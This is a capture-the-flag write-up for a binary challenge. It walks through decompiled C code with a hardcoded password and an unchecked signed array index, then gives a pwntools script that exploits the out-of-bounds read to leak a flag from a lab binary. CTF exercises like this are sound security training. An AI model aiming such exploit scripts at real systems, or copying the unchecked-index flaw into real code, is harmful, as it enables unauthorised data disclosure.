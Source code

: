 # Hack The Binary 1

<div class="hidden">
  keywords: PwC CTF: Hack A Day 2023 - Securing AI, pwn, oob
</div>

## TL;DR

Array OOB read

## Initial Analysis

When we try to run the binary file, we are first prompted to enter a 4-digit
password. Looking at the decompilation output, the password is hardcoded in
`password_checker()` function, i.e., `1235`

![initial](./img/1.png)

```c
__int64 __fastcall password_checker(int password) {
  __int64 result; // rax

  if ( password == 1235 ) {
    puts("Login Successfully\n");
    result = 1LL;
  }
  else {
    if ( password <= 999 || password > 9999 )
      puts("Please Enter 4 digit numbers!\n");
    else
      puts("Invalid password!\n");
    result = 0LL;
  }
  return result;
}
```

![passing the password checker](./img/2.png)

Next, we could see that inside `management_system()` function, we could see
that we are allowed to query an item whose ID is less than or equal to 14.
However, notice that there is no check for negative item ID and the variable
data type is a **signed** integer.

```c
void __fastcall management_system() {
  int input; // [rsp+4h] [rbp-Ch]
  unsigned int j; // [rsp+8h] [rbp-8h]
  unsigned int i; // [rsp+Ch] [rbp-4h]

  while ( 1 ) {
    while ( 1 ) {
      while ( 1 ) {
        while ( 1 ) {
          puts("--- Welcome to the Management System ---");
          puts("1. User List ");
          puts("2. Item List ");
          puts("3. Search for Item Storage ");
          puts("4. Exit");
          printf("Enter your choice: ");
          __isoc99_scanf("%d", &input);
          if ( input != 1 )
            break;
          for ( i = 0; (int)i <= 17; ++i )
            printf("UserID - %d  %s\n", i, userlist[i]);
          putchar('\n');
        }
        if ( input != 2 )
          break;
        for ( j = 0; (int)j <= 14; ++j )
          printf("ItemID - %d  %s\n", j, item[2 * (int)j]);
        putchar('\n');
      }
      if ( input != 3 )
        break;
      printf("Please Enter item ID: ");
      __isoc99_scanf("%d", &input);
      if ( input <= 14 )
        printf("\nStorage of %s: %s\n\n", item[2 * input], off_4888[2 * input]);
      else
        puts("Invalid item ID!\n");
    }
    if ( input == 4 )
      break;
    puts("Invalid Input!");
  }
}
```

This means that we could provide a negative item ID, e.g., `-4`, and it would access
memory address lower than `item` and return the value there. Looking at interesting
things that we could read with negative item ID, we could see that there is a
variable named secret which contains the flag.

![secret](./img/3.png)

## Solution

Now that we know we could read the flag by providing a negative item ID, the next
step is to calculate the exact value to properly access the flag. To do this, we
could simply subtract the distance between `item` and `secret` and then divides
the value by 16.

```python
#!/usr/bin/env python3

# type: ignore
# flake8: noqa

from pwn import *

elf = context.binary = ELF("./vuln", checksec=False)


def start(argv=[], *a, **kw):
    nc = "nc localhost 1337"
    nc = nc.split()
    host = args.HOST or nc[1]
    port = int(args.PORT or nc[2])
    if args.REMOTE:
        return remote(host, port)
    else:
        return process([elf.path] + argv, env=env, *a, **kw)


env = {}
io = start()

item = elf.sym["item"]
secret = elf.sym["secret"]
delta = (item - secret) // 16
log.info(f"{delta=:#x}")

io.sendlineafter(b"numbers): ", b"1235")
io.sendlineafter(b"choice: ", b"3")
io.sendlineafter(b"ID: ", str(delta * -1).encode())
io.recvuntil(b"Storage of ")

io.interactive()
```
